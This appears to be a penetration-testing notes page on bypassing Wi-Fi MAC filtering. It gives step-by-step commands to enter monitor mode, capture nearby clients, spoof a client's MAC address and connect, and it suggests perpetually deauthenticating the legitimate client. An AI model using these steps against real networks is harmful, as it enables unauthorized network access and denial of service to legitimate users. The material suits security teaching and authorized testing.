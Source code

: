 # MAC filtering bypass
MAC filtering involves allowing only devices with specific MAC (Media Access Control) addresses to connect to the network. This process typically involves MAC address spoofing, where an attacker changes their device's MAC address to match an allowed device, thereby gaining access to the network. 

We might have the right password, but there might be MAC filtering going on that will disallow us from connecting to the network. To bypass the MAC filtering, we can spoof our MAC address to match one of the connected clients. However, this approach often leads to collision events, as two devices with the same MAC address cannot coexist on the same network simultaneously. However, one device can connect to the 2.4GHz frequency, and another device with the same MAC address can connect to the 5GHz.

To connect to the same frequency, forcibly disconnect the legitimate client via deatuh, thereby freeing up the MAC address for use, then connect with spoofed IP.

### NOTE
Occasionally, when configuring our MAC address to match that of a client or access point, we may encounter collision events at the data-link layer. This technique of bypassing MAC filtering is most effective when the client we're mimicking is not currently connected to our target network. However, there are instances where these collision events become advantageous to us, serving as a means of denial-of-service (DOS) attack. In the case of a dual-band or multiple access point network, we may be able to utilize a MAC address of a client connected to a separate access point within the same wireless infrastructure.

---

Set router to max power
```
sudo ifconfig wlan1 down
```
```
sudo iwconfig wlan1 txpower 30
```
```
sudo ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
sudo airmon-ng check kill
```
See MAC address
```
sudo macchanger wlan1
```
Start monitor mode:
```
sudo airmon-ng start wlan1
```
Save what's there to a file:
```
sudo airodump-ng wlan1mon --band agp -w dump
```
What is on 2.4? 5? Hidden Networks? What's clients are connected to what APs?
Change MAC address:
```
sudo ifconfig wlan1mon down
```
```
sudo macchanger wlan1 -m 3E:48:72:B7:62:2A
```
```
sudo ifconfig wlan1mon up
```
Check changes made:
```
sudo macchanger wlan1mon
```
OR:
```
ifconfig wlan1
```
Connect to AP via GUI or CLI and verify connection with:
```
ifconfig
```
Remember 2 devices can't connect to the same network with the same MAC address so either:
- Perpetually deauth legit client to free up space however it's most effective when the client we're mimicking is not currently connected to our target network at all.
- Connect to the other frequency the device isn't connected to on the network (5 or 2.4)


